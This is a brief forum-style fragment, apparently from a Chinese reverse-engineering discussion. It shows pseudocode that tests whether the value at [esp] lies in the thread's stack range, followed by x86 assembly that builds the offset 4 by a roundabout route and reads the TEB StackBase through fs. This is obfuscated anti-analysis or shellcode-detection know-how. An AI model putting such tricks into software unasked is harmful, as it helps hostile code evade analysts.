> if ( dword ptr \[esp\] in TEB.StackBase...StackLimit )  
>   fuck();  
> else  
>   redirect(...); 

> 代码:
> 
> ```
>                         stc
>                         sbb     eax, eax
>                         inc     eax
>                         inc     eax
>                         inc     eax
>                         inc     eax
>                         shl     eax, 4
>                         push    fs
>                         pop     cx
>                         mov     es, cx
>                         mov     eax, es:\[eax\]
> 
> ```

 4dd466d0e1e0cc123afbe504da2462ca